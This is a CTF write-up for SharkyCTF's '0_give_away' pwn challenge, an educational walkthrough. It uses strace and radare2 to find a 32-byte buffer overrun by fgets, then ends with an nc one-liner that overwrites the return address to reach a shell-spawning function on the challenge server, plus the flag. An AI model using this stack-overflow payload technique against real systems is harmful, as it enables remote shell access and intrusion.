

<p align="center" width="500">
  
</p>

# Give away 0


## Statement

<p align="center">
  
</p>

## The Provided Binary

[0_give_away](./files/0_give_away)

## TL;DR

We are given a binary file of an application running on the sharkyctf.xyz:20333 server.
We will be able to gain the control of the program's instruction pointer.
And make it execute a function gave away in the binary that spawns a shell.

## Let's st3p 1n the challenge resolution

We are dealing with a 64-bit version of the x86 instruction set.
The binary is not stripped and does not have stack protection.
It seems like we would be able to overflow a buffer and control the program's execution flow.
Let's run it and see :

```shell
[ndako] (~/SharkyCTF/PWN) >>> file 0_give_away
0_give_away: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e0fb611b13ac822d3074696fb8bb10ea80c05882, not stripped
[ndako] (~/SharkyCTF/PWN) >>> chmod u+x 0_give_away
[ndako] (~/SharkyCTF/PWN) >>> checksec 0_give_away
[*] '/st3p1n/SharkyCTF/PWN/0_give_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[ndako] (~/SharkyCTF/PWN) >>> ./0_give_away
my-special-input
[ndako] (~/SharkyCTF/PWN) >>>
```
Humm, nothing happens...

#### The binary system trace

Let's see what kind of system calls and signals the binary makes :
```shell
[ndako] (~/SharkyCTF/PWN) >>> strace ./0_give_away
execve("./0_give_away", ["./0_give_away"], 0x7ffc55c669e0 /* 15 vars */) = 0
brk(NULL)                               = 0xc26000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=91363, ...}) = 0
mmap(NULL, 91363, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7ffac434b000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\320l\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1820104, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffac4349000
mmap(NULL, 1832568, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7ffac4189000
mprotect(0x7ffac41ae000, 1642496, PROT_NONE) = 0
mmap(0x7ffac41ae000, 1339392, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x7ffac41ae000
mmap(0x7ffac42f5000, 299008, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16c000) = 0x7ffac42f5000
mmap(0x7ffac433f000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b5000) = 0x7ffac433f000
mmap(0x7ffac4345000, 13944, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7ffac4345000
close(3)                                = 0
arch_prctl(ARCH_SET_FS, 0x7ffac434a500) = 0
mprotect(0x7ffac433f000, 12288, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7ffac4389000, 4096, PROT_READ) = 0
munmap(0x7ffac434b000, 91363)           = 0
read(0, my-special-input
"m", 1)                         = 1
read(0, "y", 1)                         = 1
read(0, "-", 1)                         = 1
read(0, "s", 1)                         = 1
read(0, "p", 1)                         = 1
read(0, "e", 1)                         = 1
read(0, "c", 1)                         = 1
read(0, "i", 1)                         = 1
read(0, "a", 1)                         = 1
read(0, "l", 1)                         = 1
read(0, "-", 1)                         = 1
read(0, "i", 1)                         = 1
read(0, "n", 1)                         = 1
read(0, "p", 1)                         = 1
read(0, "u", 1)                         = 1
read(0, "t", 1)                         = 1
read(0, "\n", 1)                        = 1
exit_group(0)                           = ?
+++ exited with 0 +++
```

Okay, what the ***strace*** output says is that the binary just reads a user's input and exits the program.
That's the first pwn challenge, it may just be a classic buffer overflow challenge where will have to overwrite ***rip*** and spawn a shell.

So let's directly st3p 1nto the binary to see what's really going on.


#### ***Radare2*** : The binary vulnerable function

```shell
[ndako] (~/SharkyCTF/PWN) >>> r2 -AA 0_give_away
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400550]> s main
[0x004006e7]> pdf
/ (fcn) main 31
|   int main (int argc, char **argv, char **envp);
|           ; DATA XREF from entry0 @ 0x40056d
|           0x004006e7      55             push rbp
|           0x004006e8      4889e5         mov rbp, rsp
|           0x004006eb      b800000000     mov eax, 0
|           0x004006f0      e851ffffff     call sym.init_buffering
|           0x004006f5      b800000000     mov eax, 0
|           0x004006fa      e8c5ffffff     call sym.vuln
|           0x004006ff      b800000000     mov eax, 0
|           0x00400704      5d             pop rbp
\           0x00400705      c3             ret
[0x004006e7]> pdf @ sym.vuln
/ (fcn) sym.vuln 35
|   sym.vuln ();
|           ; var char *s @ rbp-0x20
|           ; CALL XREF from main @ 0x4006fa
|           0x004006c4      55             push rbp
|           0x004006c5      4889e5         mov rbp, rsp
|           0x004006c8      4883ec20       sub rsp, 0x20
|           0x004006cc      488b157d0920.  mov rdx, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
|                                                                      ; [0x601050:8]=0 ; FILE *stream
|           0x004006d3      488d45e0       lea rax, qword [s]
|           0x004006d7      be32000000     mov esi, 0x32               ; '2' ; 50 ; int size
|           0x004006dc      4889c7         mov rdi, rax                ; char *s
|           0x004006df      e83cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x004006e4      90             nop
|           0x004006e5      c9             leave
\           0x004006e6      c3             ret
[0x004006e7]>

```

We can spot a function named vuln that attracts our attention.
And what that function does is to get the user's input, copy it into an array and returns to where it was called.
So our first assumption with ***strace*** was right.

However, ***fgets*** allows the user's input to have a max size of 50 bytes even if the array, where that input is copied, just allocates a size of 32 bytes into the memory :worried:.

### The Buffer overflow

We have just found the vulnerable function that will help us to cause a buffer overflow. Well, let's play with it.

```shell
[ndako] (~/SharkyCTF/PWN) >>> python3 -c 'print("A"*50)' | ./0_give_away
Segmentation fault
```

Boom! :boom: Here is a SEGFAULT, which just means that the program has attempted to access a restricted area of memory.

Let's confirm that we are the one who just have triggered this crash.

```shell
[ndako] (~/SharkyCTF/PWN) >>> python3
Python 3.7.5 (default, Oct 27 2019, 15:43:29)
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(49)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam' # + '\n' by the keyboard
>>>
```

Here is our test payload that will help us to find out at which size ***rip*** is overflowed.

Let's run rarade2 in the debugger mode :

```shell
[ndako] (~/SharkyCTF/PWN) >>> r2 -d 0_give_away
Process with PID 4222 started...
= attach 4222 4222
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f608216b090]> dcu sym.vuln
Continue until 0x004006c4 using 1 bpsize
hit breakpoint at: 4006c4
[0x004006c4]> aa
[Cannot analyze at 0x00600ff0g with sym. and entry0 (aa)
Invalid address from 0x00400759
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004006c4]> pdf
            ;-- rip:
/ (fcn) sym.vuln 35
|   sym.vuln ();
|           ; var int32_t var_20h @ rbp-0x20
|           ; CALL XREF from main @ 0x4006fa
|           0x004006c4      55             push rbp
|           0x004006c5      4889e5         mov rbp, rsp
|           0x004006c8      4883ec20       sub rsp, 0x20
|           0x004006cc      488b157d0920.  mov rdx, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
|                                                                      ; [0x601050:8]=0x7f608214aa00
|           0x004006d3      488d45e0       lea rax, qword [var_20h]
|           0x004006d7      be32000000     mov esi, 0x32               ; '2' ; 50
|           0x004006dc      4889c7         mov rdi, rax
|           0x004006df      e83cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x004006e4      90             nop
|           0x004006e5      c9             leave
\           0x004006e6      c3             ret
[0x004006c4]> dcu 0x004006e6
Continue until 0x004006e6 using 1 bpsize
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam
hit breakpoint at: 4006e6
[0x004006c4]> px @ rsp
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7ffcb560c228  6b61 6161 6c61 6161 6d00 4000 0000 0000  kaaalaaam.@.....
0x7ffcb560c238  bb7b fb81 607f 0000 0000 0000 0000 0000  .{..`...........
0x7ffcb560c248  18c3 60b5 fc7f 0000 0000 0400 0100 0000  ..`.............
0x7ffcb560c258  e706 4000 0000 0000 0000 0000 0000 0000  ..@.............
0x7ffcb560c268  a76e ca29 1fdd ccd6 5005 4000 0000 0000  .n.)....P.@.....
0x7ffcb560c278  10c3 60b5 fc7f 0000 0000 0000 0000 0000  ..`.............
0x7ffcb560c288  0000 0000 0000 0000 a76e 6aa3 5eb7 3529  .........nj.^.5)
0x7ffcb560c298  a76e 0cd1 69de 0d28 0000 0000 0000 0000  .n..i..(........
0x7ffcb560c2a8  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7ffcb560c2b8  28c3 60b5 fc7f 0000 9031 1982 607f 0000  (.`......1..`...
0x7ffcb560c2c8  b996 1782 607f 0000 0000 0000 0000 0000  ....`...........
0x7ffcb560c2d8  0000 0000 0000 0000 5005 4000 0000 0000  ........P.@.....
0x7ffcb560c2e8  10c3 60b5 fc7f 0000 0000 0000 0000 0000  ..`.............
0x7ffcb560c2f8  7a05 4000 0000 0000 08c3 60b5 fc7f 0000  z.@.......`.....
0x7ffcb560c308  1c00 0000 0000 0000 0100 0000 0000 0000  ................
0x7ffcb560c318  59ce 60b5 fc7f 0000 0000 0000 0000 0000  Y.`.............
```

Great! We are indeed the one the who lead the program to a memory access violation.
How ?
We've set a breakpoint just before the **ret** instruction and the last 8 bytes data on the stack are our input.
As we all know ***ret*** control ***rip***. The ret instruction is basically how you write ```pop rip```.<br>
So we have control over the program's instruction pointer after the first 40 bytes.

Notes:
> - buffer size = 32 bytes
> - rbp size = 8 bytes
> - rip, which is just after rbp in this case, size = 8 bytes
>
> With 48 bytes we can control the program's execution flow.
> Which is perfect because fgets allows us to write up to 50 characters.

Now that we can redirect the program's execution wherever we'd like to. Let's look for intersting functions.

#### Spawn a shell

This is just the first pwn challenge. Let's check if we do not have a shell wrapper function inside our binary :

```shell
[ndako] (~/SharkyCTF/PWN) >>> r2 -AA 0_give_away
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400550]> izzq~sh
0x400794 8 7 /bin/sh
0x11 10 9 .shstrtab
0x44 10 9 .gnu.hash
[0x00400550]> pd 1 @ 0x400794
            ;-- "/bin/sh":
            ; DATA XREF from sym.win_func @ 0x4006b5
            0x00400794     .string "/bin/sh" ; len=8
[0x00400550]> pdf @ sym.win_func
/ (fcn) sym.win_func 29
|   sym.win_func ();
|           0x004006a7      55             push rbp
|           0x004006a8      4889e5         mov rbp, rsp
|           0x004006ab      ba00000000     mov edx, 0
|           0x004006b0      be00000000     mov esi, 0
|           0x004006b5      488d3dd80000.  lea rdi, qword str.bin_sh   ; 0x400794 ; "/bin/sh"
|           0x004006bc      e86ffeffff     call sym.imp.execve
|           0x004006c1      90             nop
|           0x004006c2      5d             pop rbp
\           0x004006c3      c3             ret
[0x00400550]>
```

Indeed, there is an ```execve("/bin/sh")``` wrapper function in our binary.

### Finale Payload

The final payload to exploit this binary and the service running on the remote server :

```shell
[ndako] (~/SharkyCTF/PWN) >>> (python3 -c 'from pwn import p64; print((b"A"*40+p64(0x004006a7)).hex(), end="")' | xxd -r -p ; tee) | nc sharkyctf.xyz 20333

id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
ls -al
total 28
dr-xr-xr-x 1 pwnuser root 4096 May  8 15:32 .
drwxr-xr-x 1 root    root 4096 May  9 13:11 ..
-r-xr-xr-x 1 pwnuser root 8696 Apr 29 16:37 0_give_away
-r-xr-xr-x 1 pwnuser root   24 Apr 29 16:37 flag.txt
-r-xr-xr-x 1 pwnuser root  124 May  8 15:31 start.sh
cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}
```

We got it!

## Flag

The flag was contained in the flag.txt file located in the pwn user's home directory :

```shell
shkCTF{#Fr33_fL4g!!_<3}
```

By : [st3p1n](https://www.root-me.org/st3p1n)

## Ressources

* [A Blog with cooler and advanced pwn technics](https://dailysecurity.fr)
* [Funny way to learn to pwn](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)


<p align="center">
  
</p>
